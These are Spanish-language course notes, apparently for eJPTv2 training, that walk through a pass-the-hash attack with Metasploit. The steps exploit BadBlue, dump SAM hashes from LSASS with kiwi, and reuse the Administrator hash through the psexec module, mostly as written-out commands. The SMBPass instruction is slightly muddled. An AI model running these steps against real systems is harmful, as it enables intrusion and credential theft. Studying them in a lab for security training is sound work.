 Se trata de una técnica de explotación que implica capturar o recolectar hashes o contraseñas en texto sin formato y utilizarlas para autenticarse. Las mejores herramientas para realizar este ataque son:

- **Metasploit PsExec module**.
- **Crackmapexec**.

Esta técnica nos permite obtener acceso al sistema objetivo con credenciales legítimas. Primero vamos a ver cómo utilizar el módulo de Metasploit. Para este ejemplo seguimos los pasos:

- Conseguir acceso para obtener el hash del usuario administrador:

```bash
use exploit/windows/http/badblue_passthru
```

Configuramos RHOSTS y lanzamos el exploit para obtener una sesión meterpreter.

```bash
meterpreter > pgrep lsass # Buscamos el proceso LSASS (devuelve PID)
meterpreter > migrate <lsass_PID> # Migramos al proceso LSASS
meterpreter > getuid # Comprobamos que tenemos permisos de admin
meterpreter > load kiwi
meterpreter > lsa_dump_sam # Volcamos la base de datos SAM.
```

A continuación copiamos el “Hash NTLM” de Administrator y lo guardamos. Podemos guardar también las credenciales de los demás usuarios que nos aparecen.

- Realizar el ataque con el módulo PsExec:

Para poder utilizar este módulo, necesitaremos, además del Hash NTLM, el Hash LM, y una forma rápida de conseguirlo es escribir “**hashdump**” en la sesión meterpreter y nos devuelve el Hash LM (Es el mismo para todos los usuarios, incluido el Administrator). Lo copiamos y lo guardamos. Tiene el siguiente formato:

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2054.png)

A continuación, ponemos la sesión meterpreter en segundo plano y buscamos el módulo:

```bash
use exploit/windows/smb/psexec
```

Lo primero que debemos cambiar es LPORT, ya que el 4444 lo estamos utilizando en la sesión meterpreter que tenemos en segundo plano. Lo cambiamos por el puerto 4422 por ejemplo. Debemos indicar también los campos SMBUser (Administrator) y SMBPass (Hash LM). Debemos especificar también el objetivo (escribimos “set target” y nos lista las opciones).

```bash
set LPORT 4422
set SMBUser Administrator
set SMBPass <Hash LM>
set target Native\ upload
exploit
```
